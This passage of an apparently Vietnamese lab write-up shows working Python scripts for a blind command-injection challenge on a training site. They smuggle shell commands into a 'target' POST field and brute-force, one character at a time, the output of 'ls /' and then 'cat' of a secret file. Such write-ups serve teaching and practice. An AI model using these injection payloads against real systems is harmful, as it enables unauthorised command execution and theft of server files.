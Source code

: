     URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})
            # #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
            # print(r.text)
            if r.text == "Backup thành công":
                print(end = c)
                break
    ```

    sau khi chạy ta biết được file chữa dữ liệu là file có tên là `aba1238ygv_secret.txt`:

    ![alt text](IMG/6/image-13.png)

- Đến lúc này ta đổi điều kiện check là `ls /` thành `cat /aba1238ygv_secret.txt` thì sẽ là brute force từng kí tự của file trên:

    ```python
    # boolen-based
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `cat /aba1238ygv_secret.txt | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})
            # #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`